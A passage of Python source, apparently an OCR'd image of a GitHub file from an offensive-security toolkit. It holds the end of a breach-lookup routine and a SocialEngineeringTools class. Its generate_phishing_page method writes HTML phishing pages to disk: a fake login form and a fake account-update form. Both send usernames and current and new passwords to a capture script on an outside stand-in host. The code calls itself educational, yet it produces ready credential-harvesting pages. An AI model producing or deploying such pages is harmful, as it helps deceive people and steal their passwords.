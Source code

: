                 if response.status_code == 200:
                    results[email] = json.loads(response.text)
                elif response.status_code == 404:
                    results[email] = "No breaches found"
                else:
                    results[email] = f"Error: {response.status_code}"
            except Exception as e:
                results[email] = f"API error: {str(e)}"
        
        return results

class SocialEngineeringTools:
    @staticmethod
    def generate_phishing_page(template="login"):
        """Generate phishing page template (Educational/Defensive)"""
        print_warning("WARNING: Phishing is illegal without explicit permission")
        print_warning("This is for educational/defensive purposes only")
        
        templates = {
            "login": """
            <html>
            <body>
            <h1>Please Login</h1>
            <form action="http://legit-site.com/capture.php" method="POST">
                Username: <input type="text" name="user"><br>
                Password: <input type="password" name="pass"><br>
                <input type="submit" value="Login">
            </form>
            </body>
            </html>
            """,
            "update": """
            <html>
            <body>
            <h1>Account Update Required</h1>
            <form action="http://legit-site.com/capture.php" method="POST">
                Email: <input type="text" name="email"><br>
                Current Password: <input type="password" name="current_pass"><br>
                New Password: <input type="password" name="new_pass"><br>
                <input type="submit" value="Update">
            </form>
            </body>
            </html>
            """
        }
        
        if template in templates:
            filename = f"{template}_phish.html"
            with open(filename, "w") as f:
                f.write(templates[template])
            print_success(f"Generated template saved as {filename}")
            return filename
        else:
            print_error("Invalid template selected")
            return None
